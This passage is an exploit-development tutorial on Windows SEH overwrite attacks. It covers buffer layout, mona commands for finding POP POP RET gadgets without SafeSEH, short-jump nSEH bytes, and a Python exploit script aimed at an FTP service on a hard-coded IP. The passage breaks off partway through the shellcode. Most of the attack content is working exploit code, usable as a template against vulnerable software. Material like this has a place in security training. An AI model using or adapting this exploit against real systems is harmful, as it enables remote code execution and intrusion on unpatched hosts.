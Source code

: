 ### SEH Overwrite Exploitation Process

**Step 1: Trigger Exception**
- Overflow buffer past SEH record
- Cause access violation
- SEH chain is processed

**Step 2: Control SEH Record**
```python
# Typical SEH overwrite structure
buffer = "A" * offset_to_seh
buffer += "B" * 4  # nSEH (Next SEH) - we'll use this
buffer += "C" * 4  # SEH Handler - overwrite with POP POP RET
buffer += "D" * remaining
```

**Step 3: Find POP POP RET**
```python
# Using mona in Immunity Debugger
!mona seh

# Find POP POP RET without SafeSEH
# Example output:
# 0x625011AF : pop edi # pop ebx # ret | {PAGE_EXECUTE_READ} [module.dll]
# SafeSEH: False, ASLR: False

# Exclude bad characters
!mona seh -cpb "\x00\x0a\x0d"
```

**Step 4: Short Jump**
The nSEH (Next SEH) field needs to contain a short jump to skip over the SEH handler:

```assembly
; Short jump forward 6 bytes
EB 06 90 90

; In bytes:
nSEH = "\xeb\x06\x90\x90"
```

**Step 5: Complete SEH Exploit**
```python
#!/usr/bin/env python3
import socket
import struct

target_ip = "192.168.1.100"
target_port = 21

# Offsets
offset_to_nseh = 569
pop_pop_ret = 0x5F4580CA  # From mona seh

# Short jump (JMP 6 bytes forward)
nseh = b"\xeb\x06\x90\x90"

# POP POP RET address
seh = struct.pack("<I", pop_pop_ret)

# NOP sled
nops = b"\x90" * 16

# Shellcode
shellcode = (
    b"\xda\xd8\xbb\x9c\x32\xeb\x67\xd9\x74\x24\xf4\x5a\x2b\xc9"
    # ... (full shellcode)
```